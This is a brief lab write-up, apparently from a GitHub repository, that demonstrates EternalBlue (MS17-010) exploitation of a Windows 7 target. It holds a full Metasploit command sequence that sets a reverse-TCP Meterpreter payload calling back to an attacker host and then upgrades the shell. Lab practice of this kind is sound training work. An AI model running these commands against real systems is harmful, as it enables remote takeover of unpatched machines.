 
# EternalBlue MS17-010 Lab Writeup

### Lab Summary
This lab demonstrates exploitation of the MS17-010 SMB vulnerability (EternalBlue) on a Windows 7 system, gaining a remote shell and upgrading it to a Meterpreter session.

---

### Environment
- Target IP: <target-ip>
- Target OS: Windows 7 SP1 (version 6.1.7601)  
- Attacker machine running Metasploit Framework (msf6)

---

### Steps Taken

1. **Start Metasploit**  

   Open terminal and run:

   ```bash
   msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <attacker-ip>
run
sessions
use post/multi/manage/shell_to_meterpreter
set SESSION <session-id>
run

 
